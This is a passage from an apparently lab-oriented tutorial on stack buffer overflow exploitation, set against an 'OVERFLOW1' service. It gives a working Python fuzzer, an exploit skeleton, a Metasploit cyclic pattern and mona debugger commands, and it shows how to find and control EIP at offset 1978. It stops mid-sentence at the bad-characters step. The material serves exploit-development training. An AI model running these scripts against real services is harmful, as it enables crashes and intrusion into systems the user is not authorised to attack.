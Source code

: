 ## Fuzzing

- ``fuzz.py``

```
#!/usr/bin/env python3

import socket, time, sys

ip = "<RHOST>"      # target IP
port = "<RPORT>"    # target port (the port that the application is running on)
timeout = 5         # connection timeout

prefix = "OVERFLOW1 "
buffer = prefix + "A" * 100

while True:
  try: 
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:    # establish connection
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      
      print("Fuzzing with {} bytes".format(len(buffer) - len(prefix)))
      s.send(bytes(buffer, "latin-1"))
      s.recv(1024)
  
  except:
    print("Fuzzing crashed at {} bytes".format(len(buffer) - len(prefix)))
    sys.exit(0)
  
  buffer += 100 * "A"       # increase buffer size
  time.sleep(1)
```

After executing ``fuzz.py``, we'll see a console output similar to below:

```
Fuzzing with 100 bytes
Fuzzing with 200 bytes
...
Fuzzing with 2000 bytes
Fuzzing crashed at 2000 bytes
```

As we can see, our fuzzer crashed the application on 2000 bytes. Which means our offset should be in range of ``1900`` to ``2000". Note this down.

## Crash Replication & Controlling EIP

Next, we need to create our ``exploit.py`` file.

- ``exploit.py``:

```
import socket

ip = "<RHOST>"
port = <RPORT>

prefix = "OVERFLOW1 "
offset = 0                    # destination offset
overflow = "A" * offset       # try to reach to vulnerable offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")

except:
  print("Could not connect.")
```

For our ``PAYLOAD``, we need unique set of characters in order to spot exact offset value. To create a unique set of characters, we can use **"MSF Pattern Create"** script. We can create a pattern e.g. 2400 characters long:

```
msf-pattern_create -l 2400
```

This outputs:

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4A
f5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al
0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5
Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0A
w1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb
6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1
Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6B
m7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs
2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7
Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2C
d3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci
8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3
Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8C
t9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz
4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9
```
We can put this output into our ``PAYLOAD`` section and re-run the ``exploit.py``:

```
# python3 exploit.py
Sending evil buffer...
Done!
```

After this, execute the following ``mona`` command in Immunity Debugger:

```
!mona findmsp -distance 2400
```

In output, we should see a line like this:

```
EIP contains normal pattern : <MEMORY_LOCATION> (offset <OFFSET_VALUE>)
```

In our case, we see:

```
EIP contains normal pattern : 0x6f43396e (offset 1978)
```

Now we've found our offset value, which is ``1978``. This time, we need to update our ``offset`` value in our ``exploit.py`` file:

```
...
prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = ""
...
```

Note that not only we've changed the ``offset`` value, we also changed the ``retn`` value to ``BBBB`` and emptied out the ``payload`` part. The reason behind this is: we've emptied out ``payload`` because since we set our ``offset`` value to ``1978``, our buffer will be written full of ``A``'s up to offset ``1978`` and at this point, we don't need an extra payload for our testing process. We've set ``retn`` value as ``BBBB`` because we need to ensure that we can control the ``EIP``. If ``EIP`` gets filled out by the value ``42424242``, which equals to ``BBBB``, that means we spotted our offset value correctly.

Run ``exploit.py`` and check out the registers:

```
...
ESP 01A2FA30 ASCII "??"
EBP 41414141
ESI 00000000
EDI 00000000
EIP 42424242
...
```

As we can see, our test was successful. And we are in control of ``EIP``.

## Finding Bad Characters

Before finding **"Bad Chars"**, first we need to understand what a **Bad Character** is. A **Bad Character** is simply an unwanted character/list of unwanted characters that can break out our payload. We need to spot these bad chars and omit them from our payload. We can use the following ``mona`` command to 


















